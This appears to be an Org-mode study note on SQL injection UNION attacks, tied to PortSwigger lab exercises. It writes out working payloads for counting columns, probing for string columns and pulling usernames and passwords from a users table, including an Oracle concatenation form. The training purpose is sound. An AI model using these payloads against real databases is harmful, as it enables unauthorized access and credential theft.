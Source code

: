 #+title: SQL UNION Attack
#+description: More about SQL UNION attack

* Table of Contens :toc:
- [[#summery][Summery]]
- [[#union-keyword][UNION Keyword]]
- [[#determining-the-number-of-columns-required-in-sql-injection-union-attack][Determining the number of columns required in SQL injection UNION attack]]
- [[#finding-columns-with-a-useful-data-type-in-sql-injection-union-attack][Finding columns with a useful data type in SQL injection UNION attack]]
- [[#using-a-sql-injection-union-attack-to-retrieve-interesting-data][Using a SQL injection UNION attack to retrieve interesting data]]
- [[#retrieving-multiple-values-within-a-single-column][Retrieving multiple values within a single column]]

* Summery
- Find out the number of columns in original query returns
  #+begin_src sql
    ' ORDER BY 1 --
  #+end_src
  Increase the number until it give any kind of error.
  
- After that decide what data type columns contains
  #+begin_src sql
    'UNION SELECT 'abc',NULL--
  #+end_src
* UNION Keyword
Used to retrieve data from other tables within the database in SQL

The UNION keyword execute one or more additional ~SELECT~ queries and append the results to the original query

* Determining the number of columns required in SQL injection UNION attack

2 effective methods to determine how many columns are being returned from the original query

1. injecting series of ~ORDER BY~ clause and incrementing the specified column index until an error occurs

   #+begin_src sql
     ' ORDER BY 1--
     ' ORDER BY 2--
     ' ORDER BY 3--
     ' ORDER BY 4--
   etc.
   #+end_src

 May give error like *position number 3 is out of range of the number of items in the select list*

   1. Submitting a series of ~UNION SELECT~  payloads specifying a different number of null values:

   #+begin_src sql
   ' UNION SELECT NULL--
   ' UNION SELECT NULL,NULL--
   ' UNION SELECT NULL,NULL,NULL--
   #+end_src


*** Lab
- [[https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns][SQL injection UNION attack, determining the number of columns returned by the query]]
- [[https://github.com/touhidulshawan/portswigger-labs/blob/main/sql-injection/lab03.org][Solution]]

* Finding columns with a useful data type in SQL injection UNION attack

Having already determined the number of required columns, we can probe each column to test whether it can hold string data by submitting a series of ~UNION SELECT~ payloads that place a string value into each column in turn. For example, if the query returns 4 column, we could submit
#+begin_src sql
  ' UNION SELECT 'a',NULL,NULL,NULL--
  ' UNION SELECT NULL,'a',NULL,NULL--
  ' UNION SELECT NULL,NULL,'a',NULL--
  ' UNION SELECT NULL,NULL,NULL,'a'--
#+end_src
If the data type of column is not compatible with string data, the injected query will cause a database error, such as
*Conversion faild when converting the varchar value* 'a' to data type int.

*** Lab
- [[https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text][SQL injection UNION attack, finding a column containing text]]
- [[https://github.com/touhidulshawan/portswigger-labs/blob/main/sql-injection/lab04.org][Solution]]

* Using a SQL injection UNION attack to retrieve interesting data
Suppose that:
+ The original query returns 2 columns, both of which can hold string data
+ The injection point is a quoted string within the ~WHERE~ clause.
+ The database contains a table called ~users~ with the columns ~username~ and ~password~
In this situation, we can retrieve the content of the ~users~ table by submitting the input:
#+begin_src sql
 ' UNION SELECT username, password FROM users-- 
#+end_src

*** Lab
- [[https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables][SQL injection UNION attack, retrieving data from other tables]]
- [[https://github.com/touhidulshawan/portswigger-labs/blob/main/sql-injection/lab05.org][Solution]]
* Retrieving multiple values within a single column
We can easily retreive multiple values together within single column by concatenating the values together. On /Oracle/ we could submit the input: 
#+begin_src sql
  ' UNION SELECT username || '~' || password FROM users --
#+end_src
/This uses the double-piped sequence ~||~ which is a string concatenation operator on Oracle/ 

*** Lab
- [[https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column][SQL injection UNION attack, retrieving multiple values in a single column]]
- [[https://github.com/touhidulshawan/portswigger-labs/blob/main/sql-injection/lab06.org][Solution]]
